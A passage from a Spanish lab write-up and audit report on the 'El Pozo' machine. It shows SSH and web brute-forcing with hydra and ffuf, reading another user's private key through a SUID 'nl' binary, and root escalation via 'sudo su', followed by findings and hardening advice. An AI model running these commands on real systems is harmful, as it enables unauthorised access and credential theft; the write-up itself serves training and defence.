

`nl` es una utilidad para numerar líneas de un archivo. Al ejecutarse con SUID de `root`, puede leer **cualquier archivo** del sistema, independientemente de sus permisos. Es un caso clásico de *file read* tipo GTFOBins.

### 7.4 Lectura de la clave privada de drowner

El hogar de `drowner` contiene una clave SSH privada:

```text
/home/drowner/.ssh/id_rsa   (modo 600, propietario drowner)
```

Como `clara` no puede leerla directamente, se abusa de `nl`:

```bash
nl -ba /home/drowner/.ssh/id_rsa
```

La salida se guarda en local y se limpian los números de línea:

```bash
sshpass -p '[REDACTED]' ssh clara@172.17.0.2 \
  'nl -ba /home/drowner/.ssh/id_rsa' > drowner_key_raw.txt

sed -E 's/^ *[0-9]+\t//' drowner_key_raw.txt > drowner_id_rsa
chmod 600 drowner_id_rsa
```



La clave es de tipo OpenSSH, **sin passphrase** (el inicio de sesión funciona sin solicitarla) y con comentario `root@buildkitsandbox`. Se omite el material sensible completo en este informe.

### 7.5 Acceso como drowner

```bash
ssh -i drowner_id_rsa -o StrictHostKeyChecking=no drowner@172.17.0.2
```

Se obtiene acceso como `drowner` y se enumera sudo:

```text
uid=1000(drowner) gid=1000(drowner) groups=1000(drowner)

User drowner may run the following commands on elpozo:
    (ALL) NOPASSWD: /bin/su
```



---

## 8. Escalada a root

La regla `(ALL) NOPASSWD: /bin/su` permite ejecutar `su` como root sin contraseña. En la práctica, esto es **equivalente a root completo**, porque `su` puede lanzar una shell o ejecutar comandos arbitrarios:

```bash
sudo /bin/su -c "id; hostname; cat /root/flag.txt"
```

Resultado:

```text
uid=0(root) gid=0(root) groups=0(root)
elpozo
ElPozo{REDACTED}
```



La flag final es:

```text
ElPozo{REDACTED}
```

---

## 9. Cadena de ataque resumida

| Fase | Técnica | Resultado |
|---|---|---|
| Reconocimiento | `nmap -p-` + `-sCV` | 22/SSH y 80/HTTP |
| Enumeración web | `feroxbuster` | `/docs/` con señuelos |
| Descarte | Verificación de SQL, hashes, PEM, notas y código | Todos los señuelos son inertes |
| Acceso web | Pie de página → `[REDACTED]` + enumeración de usuarios | `redhorse:[REDACTED]` |
| Acertijo | Referencia a *The Ring* + César -6 | `irgxg` → `clara` |
| Fuerza bruta SSH | Hydra + diccionario reducido de contraseñas comunes | `clara:[REDACTED]` |
| Enumeración local | `find -perm -4000` | `/usr/bin/nl` SUID |
| Movimiento lateral | `nl` lee la clave privada de drowner | `drowner_id_rsa` |
| Escalada | `sudo -l` → `NOPASSWD: /bin/su` | `root` |
| Objetivo | `cat /root/flag.txt` | Flag capturada |

---

## 10. Hallazgos

| ID | Hallazgo | Severidad | Evidencia | Impacto |
|---|---|---|---|---|
| F-01 | Credenciales web débiles y ausencia de rate limiting/lockout | Alta | `redhorse:[REDACTED]`; ffuf/hydra | Acceso no autorizado al panel |
| F-02 | Autenticación SSH por contraseña con contraseña débil | Alta | `clara:[REDACTED]`; Hydra | Acceso inicial al sistema |
| F-03 | Binario SUID innecesario `/usr/bin/nl` | Alta | `find -perm -4000`; lectura de `id_rsa` | Lectura arbitraria de archivos como root |
| F-04 | Clave privada SSH de drowner sin passphrase en el servidor | Alta | `/home/drowner/.ssh/id_rsa` | Movimiento lateral a otra cuenta |
| F-05 | Regla `sudo NOPASSWD: /bin/su` | Crítica | `sudo -l` | Escalada directa a root |
| F-06 | Listado de directorios y archivos señuelo en `/docs/` | Media | `curl /docs/` | Ruido, exposición de información y riesgo de fuga real |
| F-07 | Cookie de sesión sin `HttpOnly`/`Secure`/`SameSite` | Media | Cabecera `Set-Cookie` | Robo de sesión vía XSS/MITM |
| F-08 | `rbash` usado como control de seguridad | Baja | PATH de clara | Falsa sensación de aislamiento |
| F-09 | Falta de MFA y de monitorización de intentos fallidos | Media | Fuerza bruta exitosa en web y SSH | Ataques de credenciales viables |

---

## 11. Recomendaciones

### Prioridad alta

1. **Eliminar el bit SUID de `/usr/bin/nl`** (`chmod u-s /usr/bin/nl`) y auditar periódicamente todos los binarios SUID/SGID. Aplicar el principio de mínimo privilegio; si se necesita una función concreta, usar capacidades o un wrapper auditado.
2. **Eliminar la regla `NOPASSWD: /bin/su`**. `su` no debe estar en sudoers. Si se necesita delegación, permitir comandos específicos y con contraseña.
3. **Deshabilitar la autenticación SSH por contraseña** o, como mínimo, exigir contraseñas robustas, MFA, `fail2ban`, `MaxAuthTries` bajo y restricción por IP.
4. **Retirar claves privadas del servidor** y protegerlas con passphrase. Cada clave debe ser única, con permisos mínimos y rotación; nunca compartir la clave de otra cuenta.
5. **Aplicar rate limiting, bloqueo temporal y MFA** al login web; usar contraseñas robustas y no reutilizables.

### Prioridad media

6. **Eliminar `/docs/` de producción** o protegerlo con autenticación; deshabilitar `Options +Indexes`. Aunque los archivos sean señuelos, enseñan una superficie de información innecesaria y pueden confundirse con datos reales.
7. **Endurecer la sesión PHP:** `HttpOnly`, `Secure` (con HTTPS), `SameSite=Lax/Strict`, rotación de ID tras login y expiración adecuada.
8. **Revisar la configuración de Apache y OpenSSH:** minimizar versión expuesta, aplicar parches y deshabilitar módulos innecesarios.
9. **Monitorizar y alertar** sobre múltiples fallos de autenticación web/SSH, uso de `sudo`, ejecución de SUID y accesos a claves privadas.

### Prioridad baja

10. **No usar `rbash` como control de seguridad.** Si se necesita aislamiento, usar contenedores, cuentas sin shell o controles de sistema de archivos; `rbash` solo dificulta la interacción.
11. **Documentar y revisar los acertijos** para que las pistas no conduzcan a interpretaciones ambiguas (por ejemplo, 63 frente a 6).

---

## 12. Conclusión

El Pozo es un laboratorio que entrena dos habilidades poco habituales: **reconocer señuelos** y **volver al punto de partida** cuando una línea de investigación no lleva a ninguna parte. La aplicación web no cae por una inyección ni por una vulnerabilidad de servidor; cae por un detalle de presentación (el pie de página) y por credenciales débiles.

Una vez dentro, la cadena es coherente y demuestra riesgos reales y frecuentes en entornos Linux:

- un binario SUID que nadie debería tener (`nl`);
- una clave privada sin passphrase accesible desde otra cuenta;
- una regla sudo que regala root (`NOPASSWD: /bin/su`).

El compromiso completo se resume en la flag:

```text
ElPozo{REDACTED}
```

---

## Anexo A — Comandos clave

```bash
# Reconocimiento
nmap -p- --min-rate 2000 -T4 172.17.0.2
nmap -sCV -p22,80 172.17.0.2

# Enumeración web
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/dirb/common.txt \
  -x php,txt -r --depth 2 -t 40 --no-state -q
curl -s http://172.17.0.2/docs/
curl -s http://172.17.0.2/docs/database.sql
curl -s http://172.17.0.2/docs/notes.txt

# Acceso web
ffuf -u http://172.17.0.2/index.php -X POST \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=FUZZ&password=[REDACTED]' \
  -w users_20k.txt -t 200 -fr 'Credenciales incorrectas' -s

hydra -l redhorse -p '[REDACTED]' 172.17.0.2 http-post-form \
  "/index.php:username=^USER^&password=^PASS^:F=Credenciales incorrectas"

# Panel y cifrado
curl -s -c /tmp/pozo.cookies -d 'username=redhorse&password=[REDACTED]' \
  -L http://172.17.0.2/index.php | lynx -dump -stdin

python3 -c "s='irgxg'; [print(f'{i:2d}: '+''.join(chr((ord(c)-97-i)%26+97) for c in s)) for i in range(26)]"

# SSH
head -99 /usr/share/wordlists/rockyou.txt > pass_ssh_top100.txt
echo '[REDACTED]' >> pass_ssh_top100.txt
hydra -l clara -P pass_ssh_top100.txt -t 32 -f ssh://172.17.0.2
sshpass -p '[REDACTED]' ssh clara@172.17.0.2

# SUID y movimiento lateral
find /bin /usr/bin /usr/sbin /sbin -perm -4000 -type f
sshpass -p '[REDACTED]' ssh clara@172.17.0.2 'nl -ba /home/drowner/.ssh/id_rsa' > drowner_key_raw.txt
sed -E 's/^ *[0-9]+\t//' drowner_key_raw.txt > drowner_id_rsa
chmod 600 drowner_id_rsa
ssh -i drowner_id_rsa drowner@172.17.0.2

# Escalada
sudo -l
sudo /bin/su -c "id; hostname; cat /root/flag.txt"
```

## Anexo B — Evidencias

Este repositorio público incluye el informe y las capturas de terminal. Los diccionarios, las salidas crudas y el material de clave privada se omiten deliberadamente.

| Archivo | Contenido | Incluido |
|---|---|---|
| `screenshots/` | Capturas de terminal de todas las fases | Sí |
| `nmap_all.txt` / `nmap_services.txt` | Escaneos de puertos y versiones | No |
| `ferox_common.txt` | Resultados de feroxbuster | No |
| `users_20k.txt` / `pass_ssh_top100.txt` | Diccionarios usados en la auditoría | No |
| `drowner_key_raw.txt` / `drowner_id_rsa` | Material sensible de la clave SSH | No |

> **Protección de evidencia:** las claves privadas y las salidas crudas no se distribuyen. No deben publicarse ni reutilizarse fuera del entorno autorizado.

---

*Documento elaborado como parte de la auditoría de seguridad del laboratorio El Pozo (Whoami-Labs).*
